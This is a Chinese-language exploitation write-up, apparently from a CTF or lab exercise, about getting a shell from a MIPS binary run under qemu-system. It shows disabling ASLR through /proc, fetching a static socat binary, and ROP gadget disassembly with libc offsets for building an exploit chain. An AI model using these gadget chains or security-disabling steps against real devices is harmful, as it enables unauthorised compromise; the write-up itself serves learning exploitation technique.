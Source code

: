 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660826396845-980cdfe9-481b-4e42-899d-dcf17ac93344.png)

要想能正常调试还得看我qemu-system。

## qemu-system
如果程序使用qemu-system模拟，抛开地址随机化不谈，上面的那个exp是**<font style="color:#E8323C;">有可能</font>**无法getshell的，下面我们来演示一下。由于qemu-system系统中并没有自带`socat`工具，但是我们可以退而求其次，使用静态的且已经编译好的可执行程序。

> socat下载地址：[https://github.com/hypn/misc-binaries/blob/master/socat-mipsel32-static-debian-squeeze](https://github.com/hypn/misc-binaries/blob/master/socat-mipsel32-static-debian-squeeze)（小端序）
>

为了防止受地址随机化的影响，这里我选择关闭（不关闭这道题目就做不成了）：`echo 0 > /proc/sys/kernel/randomize_va_space`。查看libc地址：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660868796532-c11aaabf-70a6-4be0-a4ba-1164cf18ae06.png)

将qemu-system的`/lib/ld-2.11.3.so`与`/lib/libc-2.11.3.so`拷贝出来，尝试寻找gadgets，首先是`lw_s3_gadget`，地址为0xA0730：

```bash
.text:000A0730                               loc_A0730:                               # CODE XREF: sub_A0658+78↑j
.text:000A0730 34 00 BF 8F                   lw      $ra, 0x24+var_s10($sp)						# 52
.text:000A0734 30 00 B3 8F                   lw      $s3, 0x24+var_sC($sp)						# 48
.text:000A0738 2C 00 B2 8F                   lw      $s2, 0x24+var_s8($sp)						# 44
.text:000A073C 28 00 B1 8F                   lw      $s1, 0x24+var_s4($sp)						# 40
.text:000A0740 24 00 B0 8F                   lw      $s0, 0x24+var_s0($sp)						# 36
.text:000A0744 08 00 E0 03                   jr      $ra
.text:000A0748 38 00 BD 27                   addiu   $sp, 0x38												# 56
```

然后是`jalr_t9_gadget`和`addiu_a1_sp_24_gadget`，该版本的libc中没有`jalr $t9`gadget，我们只能重新选择gadget和布置栈：

```bash
loc_126440:
.text:00126440 21 C8 A0 00                   move    $t9, $a1
.text:00126444 4C 00 84 24                   addiu   $a0, 0x4C  # 'L'
.text:00126448 08 00 20 03                   jr      $t9
.text:0012644C 21 28 C0 00                   move    $a1, $a2
--------------------------------------------------------------------------------------------------------------------------------
.text:00023828                               loc_23828:                               # CODE XREF: sub_23790+5C↑j
.text:00023828 21 C8 20 02                   move    $t9, $s1
.text:0002382C 09 F8 20 03                   jalr    $t9 
.text:00023830 1C 00 A5 27                   addiu   $a1, $sp, 0x24+var_8							# 0x1C(28)
```
